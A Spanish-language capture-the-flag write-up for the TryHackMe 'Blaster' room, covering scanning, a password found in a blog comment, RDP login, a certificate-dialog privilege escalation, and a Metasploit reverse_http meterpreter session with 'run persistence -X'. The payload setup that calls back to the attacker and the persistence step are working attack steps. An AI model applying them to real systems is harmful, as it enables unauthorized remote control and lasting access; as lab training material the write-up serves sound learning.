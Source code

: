 # THM - Blue
[TryHackMe-Blaster](https://tryhackme.com/room/blaster)

Para comenzar el análisis se realiza un **nmap** a la ip de la máquina.

![Nmap](/img/blaster1.png)

*Try Hack Me*  
![THM1](/img/blaster2.png)

Al acceder a la web que se encuentra en la ip proporcionada puede verse el nombre del sitio.

![web](/img/blaster3.png)

*Try Hack Me*  
![THM2](/img/blaster4.png)

Gracias a la herramienta **Feroxbuster**, se pueden encontrar los directorios ocultos del siti web. En este caso se ha encontrado */retro*.

![retro](/img/blaster5.png)

*Try Hack Me*  
![THM3](/img/blaster6.png)

Al acceder a la web puede verse que está hecha por el usuario ***Wade***.

![retro](/img/blaster7.png)

*Try Hack Me*  
![THM4](/img/blaster8.png)

Al navegar por la página, uno de los post habla sobre "Ready Player One", película con la que el usuario se siente identificado y menciona que cada vez que hace login en la web se equivoca escribiendo el nombre del avatar del protagonista. Si se accede a este post, en el comentario aparece dicha contraseña.

*Try Hack Me*  
![THM5](/img/blaster9.png)

A continuación se va a intentar acceder al sistema con la herramienta ***xfreerdp***. 

![xfreerdp](/img/blaster10.png)

*Try Hack Me*  
![THM6](/img/blaster11.png)

En el escritorio de la máquina puede verse un programa llamado **hhupd**, el cual si lo buscamos tiene un CVE asociado.

*Try Hack Me*  
![THM7](/img/blaster14.png)

Puede buscarse un CVE asociado a este ejecutable:

![CVE](/img/blaster12.png)

*Try Hack Me*  
![THM7](/img/blaster13.png)

Al ejecutar el programa como administrador y ver el certificado del creador, se abre una página web en la que parece que da un fallo. Una vez aparezca esta página hay que guardarla, pulsando *Ok* en la alerta que saldrá en la pantalla y se guarda en la carpeta que puede verse en la imagen:

![web](/img/blaster15.png)

A continuación hay que buscar cmd en la carpeta de *System32* y al abrirlo y ejecutar *whoami* ya se habrán escalado privilegios.

![privilegios](/img/blaster16.png)

*Try Hack Me*  
![THM8](/img/blaster17.png)

Al acceder al escritorio del administrador puede verse el contenido del fichero *root.txt*.

![txt](/img/blaster18.png)

*Try Hack Me*  
![THM9](/img/blaster19.png)

A continuación se va a utilizar un nuevo *exploit* pero esta vez desde la herramienta **Mestasploit**. 

![metasploit](/img/blaster20.png)

![target](/img/blaster21.png)

*Try Hack Me*  
![THM10](/img/blaster22.png)

Configurar el *exploit*:
```
set lhost (ip vpn)
set target 2
set payload windows/meterpreter/reverse_http
run -j
```

Copiar el comando que da Metasploit y colocarlo en la línea de comandos con la que se escalaron privilegios. 

![run](/img/blaster23.png)

Una vez ejecutada, al volver a Metasploit aparecerá la línea de comandos con *Meterpreter*. Para ganar persistencia en el sistema ejecutar *run persistence -X*.

![meterpreter](/img/blaster24.png)

*Try Hack Me*  
![THM11](/img/blaster25.png)